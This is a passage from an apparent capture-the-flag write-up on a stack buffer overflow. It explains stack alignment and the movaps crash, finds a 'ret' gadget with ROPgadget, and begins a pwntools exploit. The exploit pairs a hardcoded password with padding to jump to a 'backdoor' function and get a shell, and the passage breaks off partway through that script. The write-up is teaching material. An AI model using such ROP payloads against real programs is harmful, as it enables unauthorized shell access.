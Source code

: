 Google it  ` movaps xmmword ptr [rsp + 0x50], xmm0`   gave me the answer .



> Recently, I want to modify the binary program which add a instruction `push $rbx` in the binary program. And it will increment the stack by 8 bytes. It sounds good for the binary program.
>
> And I debug the modified binary with gdb, and find that it crashes in `movaps` instruction.
>
> ```bash
> movaps xmmword ptr [rsp+0x50], xmm0
> ```
>
> So what happened?
>
> And I found the answers from some blogs(see [reference](http://blog.binpang.me/2019/07/12/stack-alignment/#reference)). `movaps` is “move aligned packed single-precision floating-point values”. If the instruction’s operand is memory, the memory address must be aligned to 16 bytes. And I print the `$rsp+0x50`, its not 16 bytes alignment. That’s because I pushed `$rbx` into the stack and increment the rsp to 8 bytes, and that results in rsp is not aligned to 16 byte
>
> 



So I have to aligned the stack before call *backdoor* function. What instruction do that its for me ? The `RET` instruction does this for me. Let me found one:

```bash
python3 ROPgadget.py  --only "ret" --binary /pwd/system_health_check
Gadgets information
============================================================
0x0000000000401016 : ret
0x0000000000401072 : ret 0x2f
0x000000000040127a : ret 0xfffd

Unique gadgets found: 3
```

> By the way,  this is a gadgets.



Pick up the first, put before call our `backdoor` function and get a shell.

## Functional Exploit 

For the functional  exploit, I  used `pwntools` that gave more focus in binary exploitation part and less in python stuff. 

```python
#!/usr/bin/python
from pwn import *


def main():
    
    # padding + RET + RIP    
    
    padding = b"A"* 242
    RET = p64(0x401016)
    RIP = p64(0x401254)
    
    payload=[
        b"sUp3r_S3cr3T_P4s5w0rD\x00",
        padding,
        RET,
        RIP
        
```
